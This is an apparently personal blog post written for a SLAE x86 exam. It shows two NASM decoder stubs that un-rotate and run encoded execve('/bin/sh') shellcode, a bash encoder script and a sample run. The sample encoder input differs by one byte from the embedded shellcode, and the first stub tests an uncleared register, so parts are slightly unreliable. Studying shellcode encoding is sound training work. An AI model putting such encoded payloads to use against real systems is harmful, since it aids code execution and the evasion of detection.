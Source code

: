 ```yaml
---
layout: post
title: "SLAE x86 Exam Part 4"
description: "SLAE x86 Exam Part 4: Decoder"
modified: 2018-05-31T05:30:00-05:00
tags: [pentest, asm, x86, slae]
---
```


# Overview
This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](/http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1260

---

In this exercise, we were instructed to create an decoder similar to the
"insertion" decoder covered earlier in the course.  This was, for me, perhaps 
the most educational challenge in the exam.  It served to highlight a number of
deficiencies in my shellcoding knowledge, and gave me a chance to really drive
home some of the register interactions I had skimmed over previously.  

After exploring a handful of "encodings", I settled on a simple byte rotation,
swapping the order of each byte (`0xab` -> `0xba`) through the use of a 4-bit
`ror`.  I liked this method because it was simple, did not require any
alterations to the original shellcode, and would not introduce null bytes.

The approach I took requires the shellcode itself to be free of null bytes, save
for the termination.

Here are two implementations of this approach.  The first reads a single byte 
at a time into `BL` from `ESI`, while the second reads a `DWORD` into `EBX` and 
uses a loop to rotate each of 4 bytes.  I believe the former is the superior
method due to its simplicity and smaller footprint, but wanted to include both
to demonstrate the process of refinement over the course of my efforts.

{% highlight nasm %}
global _start

section .text
_start:
    jmp call_shellcode      ; Go to call_shellcode

decoder: 
    pop esi                 ; Get address of shellcode
    xor eax,eax             ; Clear EAX

decode:                     ; Main decode loop
    mov byte bl,[esi+eax]   ; Move next byte into BL
    ror bl,4                ; Rotate lowest byte 4 times (0xab -> 0xba)
    mov byte [esi+eax],bl   ; Move byte back into current offset in ESI

    cmp bl,bh               ; End of shellcode?
    jz shellcode            ; If so, execute shellcode

    inc al                  ; Otherwise, increment shellcode position
    jmp short decode        ; Go back to top of decode loop

call_shellcode:
    call decoder            ; Call decoder function
    shellcode: db 0x13,0x0c,0x05,0x86,0xf2,0xf2,0x37,0x86,0x86,0xf2,0x26,0x96,0xe6,0x98,0x3e,0x05,0x98,0x2e,0x35,0x98,0x1e,0x0b,0xb0,0xdc,0x08,0x00
{% endhighlight %}

{% highlight nasm %}
global _start

section .text
_start:
    jmp call_shellcode      ; Go to call_shellcode

decoder: 
    pop esi                 ; Get address of shellcode
    xor eax,eax             ; Clear EAX

decode:                     ; Main decode loop
    mov dword ebx,[esi+eax] ; Get current dword in shellcode
    push 0x4                ; Loop 4 times
    pop ecx

rotate_once:
    ror bl,4                ; Rotate lowest byte 4 times (0xab -> 0xba)
    rol ebx,8               ; Move to next byte in current dword
    loop rotate_once        ; Loop until all 4 bytes have been rotated

    mov dword [esi+eax],ebx ; Put byte back in esi
    cmp bl,ch               ; End of shellcode?
    jz shellcode            ; If so, execute shellcode

    add al,0x4              ; Otherwise, increment shellcode position
    jmp short decode        ; Go back to top of decode loop

call_shellcode:
    call decoder            ; Call decoder function
    shellcode: db 0x13,0x0c,0x05,0x86,0xf2,0xf2,0x37,0x86,0x86,0xf2,0x26,0x96,0xe6,0x98,0x3e,0x05,0x98,0x2e,0x35,0x98,0x1e,0x0b,0xb0,0xdc,0x08,0x00
{% endhighlight %}

Finally, a simple script to handle encoding of the original shellcode:

{% highlight bash %}
#!/bin/bash

[ -z $1 ] && echo "Usage: $(basename $(readlink -f $0)) <shellcode>"

for i in $(echo $1 | tr "," " "); do
    echo 0x${i:3}${i:2:1}
done | tr "\n" "," | rev | cut -c2- | rev
{% endhighlight %}

{% highlight bash %}
$ ./encode.sh "0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x68,0x6e,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0x00"
0x13,0x0c,0x05,0x86,0xf2,0xf2,0x37,0x86,0x86,0xf2,0x26,0x86,0xe6,0x98,0x3e,0x05,0x98,0x2e,0x35,0x98,0x1e,0x0b,0xb0,0xdc,0x08,0x00
{% endhighlight %}

## Screenshots

![Execution of encoder/decoder]({{ "/assets/images/4.1-decoder.png" | absolute_url}})
